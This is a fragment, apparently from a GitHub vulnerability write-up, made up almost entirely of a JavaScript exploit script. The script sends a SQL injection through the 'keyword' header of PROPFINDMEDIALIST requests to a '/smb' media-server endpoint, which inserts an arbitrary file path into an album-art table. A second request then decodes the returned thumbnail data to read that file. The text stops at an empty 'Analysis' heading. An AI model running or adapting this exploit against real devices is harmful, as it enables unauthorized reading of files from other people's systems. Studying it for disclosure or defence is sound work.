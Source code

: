 ```javascript
console.log(val.length)


await fetch("/smb", {
  "headers": {

    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

val = ("a' OR 1 );  INSERT INTO ALBUM_ART (PATH, ID) VALUES ('" + path + "', " + pId + "); -- ").split("'").join("%27")
console.log(val.length)


await fetch("/smb", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

await fetch("/smb", {
  "headers": {
    "classify": "album",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "GETMUSICCLASSIFICATION"
}).then(a => a.text()).then(b => {
var aidx = b.indexOf(author)
var pay = b.substring(b.indexOf("<thumb_image>", aidx) + "<thumb_image>".length, b.indexOf("</thumb_image>", aidx))

console.log(atob(pay))
})
})()
```

#### Analysis
